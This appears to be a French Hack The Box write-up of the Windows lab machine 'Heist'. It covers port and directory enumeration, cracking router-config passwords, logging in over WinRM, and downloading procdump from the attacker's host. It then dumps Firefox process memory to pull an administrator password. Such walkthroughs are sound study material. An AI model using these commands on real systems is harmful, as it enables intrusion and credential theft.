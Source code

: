 ![Pic1](../img/heist1.PNG?raw=true) </br>

# Introduction
Heist est une machine Windows dont l'adresse IP est 10.10.10.149.</br>
Compétences mises en oeuvre :
* Enumération des ports et services d'une machine distante.
</br>

# Enumération initiale
Nous commençons par l'énumération des ports et services avec nmap :
```bash
$ nmap -T4 -A 10.10.10.149
```
![Pic2](../img/heist2.PNG?raw=true) </br>
Plusieurs ports d'ouverts. Nous allons faire une énumération des fichiers et dossiers sur le port 80 avec dirsearch :
```bash
$ dirsearch -w wordlist -e "php,txt" -f -t 100 -x 400,404,500 -u http://10.10.10.149
```
![Pic3](../img/heist3.PNG?raw=true) </br>

# Obtenir un accès utilisateur

Sur la page d'accueil du site web, nous pouvons nous connecter en tant que Guest :</br>
![Pic4](../img/heist4.PNG?raw=true) </br>
Il y a une page d'aide, qui correspond à un dialogue entre l'utilisateur Hazard et le support. L'utilisateur Hazard a des problèmes avec son routeur cisco, il a laissé une copie de la configuration :</br>
![Pic5](../img/heist5.PNG?raw=true) </br>
![Pic6](../img/heist6.PNG?raw=true) </br>
Dans le dialogue, nous aprenons qu'un compte Hazard existe sur le serveur Windows, puis dans la config du routeur, nous pouvons voir 3 mots de passe que nous allons cracker :
![Pic7](../img/heist7.PNG?raw=true) </br>
![Pic8](../img/heist8.PNG?raw=true) </br>
![Pic9](../img/heist9.PNG?raw=true) </br>
Maintenant que nous avons des mots de passe et un nom d'utilisateur, nous pouvons essayer de nous connceter sur la machine avec ces derniers. Sauf qu'il n'y a pas de port SSH d'ouvert, nous allons refaire un scan pour voir si le 
port de Winrm est ouvert :</br>
![Pic10](../img/heist10.PNG?raw=true) </br>
Le port winrm est ouvert, nous pouvons donc tenter les différentes combinaisons d'identifiant et mot de passe que nous avons en se connectant avec evil-winrm. Sauf que l'on a une erreur d'authorisation, ce qui veux dire
que le compte Hazard ne peut pas se connecter en winrm. En revanche le couple Hazard:stealthlagent nous permet de nous connecter avec smbclient. / </br>
Le script lookupsid.py de impacket nous permet d'énumérer les comptes locaux :
```bash
$ python lookupsid.py ./hazard@10.10.10.149
```
![Pic11](../img/heist11.PNG?raw=true) </br>
Plusieurs nouveau idenfitiants intéréssants : Chase / Jason / support.</br>
En essayant les mots de passes sur chacun des idenfitiants, le couple Chase:Q4)sJu\Y8qz*A3?d fonctionne avec evil-winrm et nous permet d'obtenir le fichier user.txt.</br>
![Pic12](../img/heist12.PNG?raw=true) </br>

# Obtenir un accès administrateur

Nous faisons l'énumération avec winPEAS :
```bash
evil-winrm > upload /home/parrot/DesktopwinPEASx64.exe
evil-winrm > ./winPEASx64.exe all
```
Dans l'énumération, winPEAS nous dit qu'il y a du mot de passe d'enregistré dans Firefox :</br>
![Pic13](../img/heist13.PNG?raw=true) </br>
Nous allons voir si Firefox est actif et le dumper pour voir si il contient un mot de passe autre que le notre :
```bash
evil-winrm > powershell -c "Invoke-Webrequest -Uri http://10.10.14.6:8000/procdump.exe -outfile procdump.exe"
evil-winrm > Get-Process
evil-winrm > ./procdump -ma 708
evil-winrm > powershell -c 'Get-Content firefox_dump.dmp | Select-string -Pattern "assword" '
```
![Pic14](../img/heist14.PNG?raw=true) </br>
Nous pouvons alors nous connecter en administrator et récupérer le root.txt :</br>
![Pic15](../img/heist15.PNG?raw=true) </br>